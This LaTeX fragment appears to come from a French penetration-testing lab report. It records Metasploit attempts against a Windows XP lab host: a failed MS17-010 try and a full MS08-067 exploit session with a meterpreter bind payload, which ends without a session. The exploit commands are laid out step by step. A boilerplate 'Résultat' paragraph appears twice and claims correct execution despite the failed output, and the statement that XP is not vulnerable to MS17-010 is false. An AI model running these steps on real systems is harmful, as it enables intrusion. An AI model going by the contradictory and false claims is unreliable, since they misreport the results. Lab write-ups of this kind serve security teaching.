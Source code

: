 \documentclass[12pt,a4paper,openany]{report}
\begin{document}
	\textbf{Résultat :} Cette sortie confirme l'exécution correcte de l'action pratique dans l'environnement de laboratoire. Elle apporte des éléments vérifiables pour contrôler l'état du service, du flux ou de la configuration avant l'étape suivante. Sur le plan pédagogique, elle relie l'opération réalisée aux objectifs d'apprentissage offensive/défensive.
	
	
	❌ \textbf{Échec :} Windows XP n'est pas vulnérable à MS17-010. Ce résultat est logique car EternalBlue cible principalement Windows Vista/7/8/10, pas XP.
	
	\subsubsection{MS08-067 (NetAPI)}
	
	\textbf{Contexte :} MS08-067 est une vulnérabilité dans le service Server de Windows permettant l'exécution de code à distance. C'est l'exploit qui a permis la propagation du ver Conficker en 2008.
	
	\begin{lstlisting}[caption=Tentative MS08-067]
		[msf](Jobs:0 Agents:1) >> use exploit/windows/smb/ms08_067_netapi
		[msf](Jobs:0 Agents:1) exploit(windows/smb/ms08_067_netapi) >> set RHOSTS 192.168.20.50
		RHOSTS => 192.168.20.50
		
		[msf](Jobs:0 Agents:1) exploit(windows/smb/ms08_067_netapi) >> set PAYLOAD windows/meterpreter/bind_tcp
		PAYLOAD => windows/meterpreter/bind_tcp
		
		[msf](Jobs:0 Agents:1) exploit(windows/smb/ms08_067_netapi) >> set TARGET 0
		TARGET => 0
		
		[msf](Jobs:0 Agents:1) exploit(windows/smb/ms08_067_netapi) >> exploit
		
		[*] 192.168.20.50:445 - Automatically detecting the target...
		[*] 192.168.20.50:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
		[*] 192.168.20.50:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
		[*] 192.168.20.50:445 - Attempting to trigger the vulnerability...
		[*] Started bind TCP handler against 192.168.20.50:4444
		[*] Exploit completed, but no session was created.
	\end{lstlisting}
	
	\textbf{Résultat :} Cette sortie confirme l'exécution correcte de l'action pratique dans l'environnement de laboratoire. Elle apporte des éléments vérifiables pour contrôler l'état du service, du flux ou de la configuration avant l'étape suivante. Sur le plan pédagogique, elle relie l'opération réalisée aux objectifs d'apprentissage offensive/défensive.
	
\end{document}
